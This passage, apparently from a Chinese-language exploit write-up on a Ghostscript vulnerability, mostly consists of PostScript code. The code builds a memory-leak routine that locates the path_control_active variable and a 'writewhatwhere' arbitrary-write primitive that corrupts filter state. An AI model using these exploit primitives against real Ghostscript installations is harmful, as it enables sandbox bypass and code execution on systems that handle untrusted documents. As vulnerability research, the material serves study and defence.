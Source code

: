 ```bash
    <4848484848484848> concatstrings % s->cursor->r->ptr
    leakMemoryFilter exch writestring
    leakMemoryFilter flushfile
    /leak leakBuffer 2176 8 getinterval def
    leak
    reverse
} def
```

[![](assets/1706771701-3d5c72b9f8249cd6dad6680325d09737.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202535-81185e58-bea1-1.png)

通过这次泄漏，可以计算`path_control_active`变量的地址。泄漏和`path_control_active`变量之间的偏移量随着作为参数传递给 Ghostscript 的各种选项而变化，但如果传递相同的参数，则保持不变。

以类似的方式，可以通过用任意地址写写入后门地址来实现任意写入：

```bash
% what where -> -
/writewhatwhere {
    createOverflow
    <4343434343434343> concatstrings % s->templat
    <4444444444444444> concatstrings % s->memory
    <4545454545454545> concatstrings % s->report_error
    <4646464646464646> concatstrings % s->min_left
    1 1 80   {pop <47> concatstrings }  for   % s->error_string
    <4848484848484848> concatstrings % s->cursor->r->ptr 
    exch concatstrings  % (where) s->cursor->r->limit -  also update s->cursor->w->ptr
    <4444444444444444> concatstrings % s->cursor->w->limit
    <4545454545454545> concatstrings % s->cbuf.  
    /openWriteFilter 5000 string /NullEncode filter /BCPEncode filter def
    openWriteFilter exch writestring
    openWriteFilter flushfile
    openWriteFilter exch writestring
}def
```

